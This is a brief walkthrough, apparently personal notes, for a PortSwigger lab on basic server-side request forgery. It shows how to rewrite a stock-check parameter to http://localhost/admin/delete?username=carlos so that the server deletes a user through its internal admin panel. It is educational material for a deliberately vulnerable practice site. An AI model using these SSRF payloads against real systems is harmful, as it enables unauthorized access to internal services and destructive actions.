 # Portswigger
## Server-Side Request Forgery (SSRF)
### Basic SSRF against the local server
```bash

#### This lab has a stock check feature which fetches data from an internal system.

#### To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. 

Go to: "View details" for any item
Intercept is on
Click "Check stock"
Send to repeater
Replace:

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D2

With

stockApi=http://localhost/

Response:

HTTP/1.1 302 Found

Go to this page
Delete the username "carlos"
Upon fail find the request in the HTTP history

GET /admin/delete?username=carlos HTTP/1.1

Go back to the POST request in repeater with the API end-point

POST /product/stock HTTP/1.1

Add:

/admin/delete?username=carlos

To the previous end-point:

stockApi=http://localhost/admin/delete?username=carlos

Note the response:

HTTP/1.1 302 Found

```
